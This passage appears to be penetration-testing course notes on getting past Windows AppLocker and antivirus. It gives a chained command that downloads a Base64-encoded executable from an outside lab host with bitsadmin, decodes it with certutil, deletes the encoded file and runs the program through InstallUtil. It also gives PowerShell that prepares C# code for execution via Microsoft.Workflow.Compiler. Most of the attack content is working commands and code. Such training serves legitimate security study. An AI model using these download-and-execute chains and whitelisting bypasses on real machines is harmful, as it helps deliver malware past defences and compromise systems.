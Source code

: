 ```csharp
            rs.Close();
        }
    }
}
```

It is possible to reuse this with the Microsoft Word macros since they are not limited by AppLocker.

- Instead of using `WMI` to directly start a PowerShell process and download the shellcode runner from our web server, make WMI execute `InstallUtil`.

The issue is that the compiled C# file has to be **on disk** when `InstallUtil` is invoked.

To attempt to bypass anitvirus, obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk.

Use the native `certutil` tool to perform the encoding and decoding and `bitsadmin` for the downloading.

```bat
certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt

bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\Users\student\enc.txt

certutil -decode enc.txt Bypass.exe
```

```bat
C:\Users\student>bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

## Bypassing AppLocker with C#

### Microsoft.Workflow.Compiler

`test.txt`

```csharp
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

Create the correctly-serialized XML format in a file named `run.xml`

```pwsh
$workflowexe = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe"
$workflowasm = [Reflection.Assembly]::LoadFrom($workflowexe)
$SerializeInputToWrapper = [Microsoft.Workflow.Compiler.CompilerWrapper].GetMethod('SerializeInputToWrapper', [Reflection.BindingFlags] 'NonPublic, Static')
Add-Type -Path 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\System.Workflow.ComponentModel.dll'

$compilerparam = New-Object -TypeName Workflow.ComponentModel.Compiler.WorkflowCompilerParameters
$compilerparam.GenerateInMemory = $True
$pathvar = "test.txt"
$output = "C:\Tools\run.xml"
$tmp = $SerializeInputToWrapper.Invoke($null, @([Workflow.ComponentModel.Compiler.WorkflowCompilerParameters] $compilerparam, [String[]] @(,$pathvar)))
Move-Item $tmp $output

```